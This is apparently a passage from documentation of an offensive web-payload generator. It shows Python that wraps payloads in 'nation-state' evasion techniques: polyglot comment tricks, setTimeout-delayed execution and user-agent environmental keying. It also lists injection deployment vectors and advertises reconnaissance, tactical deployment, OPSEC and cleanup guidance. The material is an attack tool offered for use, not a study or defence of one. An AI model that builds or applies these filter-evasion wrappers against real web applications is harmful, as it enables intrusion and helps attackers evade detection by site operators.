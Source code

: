 #### Nation-state Level Techniques
```python
if evasion_level == "nation-state":
    advanced_techniques = [
        {
            "technique": "Polyglot Payload",
            "payload": f"/*{payload_info['payload']}*/ OR {payload_info['payload']}"
        },
        {
            "technique": "Time-delayed Execution",
            "payload": f"setTimeout(function(){{{payload_info['payload']}}}, 1000)"
        },
        {
            "technique": "Environmental Keying",
            "payload": f"if(navigator.userAgent.includes('specific')){{ {payload_info['payload']} }}"
        }
    ]
```

### Deployment Methods
```python
enhanced_payload["deployment_methods"] = [
    "Direct injection",
    "Parameter pollution",
    "Header injection",
    "Cookie manipulation",
    "Fragment-based delivery"
]
```

## Key Features

### Advanced Evasion Capabilities
- **Multi-level Evasion:** Support for standard, advanced, and nation-state level evasion
- **Encoding Techniques:** Multiple encoding and obfuscation techniques
- **Environmental Keying:** Context-aware payload activation

### Sophisticated Techniques
- **Double URL Encoding:** Advanced encoding bypass techniques
- **Unicode Normalization:** Unicode-based filter evasion
- **Polyglot Payloads:** Multi-context payload compatibility
- **Time-delayed Execution:** Temporal evasion techniques

### Comprehensive Deployment Guidance
- **Pre-deployment Planning:** Reconnaissance and preparation guidance
- **Deployment Strategy:** Tactical deployment recommendations
- **Post-deployment Operations:** Operational security and cleanup guidance

### Professional-grade Features
- **Risk Assessment:** Automated risk level assessment for each payload
- **Deployment Methods:** Multiple deployment vector recommendations
- **Operational Security:** OPSEC considerations and guidance

